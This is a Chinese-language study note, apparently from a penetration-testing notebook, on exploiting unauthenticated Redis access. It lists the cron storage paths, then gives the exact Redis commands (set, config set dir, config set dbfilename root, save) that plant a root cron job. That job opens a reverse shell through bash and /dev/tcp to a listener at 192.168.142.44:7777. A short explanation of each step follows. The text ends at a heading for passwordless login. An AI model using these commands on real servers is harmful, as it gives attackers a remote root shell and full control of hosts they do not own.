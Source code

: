 #### 定时任务

cron文件存储路径

```
/var/spool/cron/
```

这个文件负责安排由系统管理员制定的维护系统以及其他任务的crontab

该路径下的存储文件是以用户的方式存储的



```
/etc/crontab
```

放的是对应周期的任务

dalily

hourly

monthly

weekly



#### 定时文件写入

（往redis中写入木马或定时任务需要在前后加\n换行符与其他数据隔开）

```
set x "\n* * * * * bash -I >& /dev/tcp/192.168.142.44/7777 0>&1\n"
```

```
config set dir /var/spool/cron/
```

```
config set dbfilename root
```

```
save
```

#### 解释：

设置反弹shell的定时任务

将保存路径设置在cron文件存储的路径

并将保存的文件名设置为当前主机的用户

这样cron就可以识别该定时任务创建执行







### 免密登录
